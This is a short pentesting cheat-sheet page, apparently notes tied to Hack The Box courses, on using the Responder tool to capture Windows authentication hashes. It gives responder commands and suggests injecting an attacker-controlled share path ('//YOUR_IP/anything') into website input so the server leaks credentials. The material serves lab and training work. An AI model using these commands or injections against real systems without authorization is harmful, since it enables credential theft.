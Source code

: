 # Responder

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

<div class="row row-cols-lg-2"><div>

You can use [responder](https://github.com/lgandx/Responder) <small>(5.0k ⭐)</small> to catch Windows authentication requests allowing us to grab hashes and passwords.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab the credentials used to connect to the share.

```ps
$ sudo responder -I tun0
$ sudo responder -i IP -I tun0
```
</div><div>

Following the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

Passive Network Discovery

```ps
$ sudo responder -I tun0 -A
```
</div><div>
</div></div>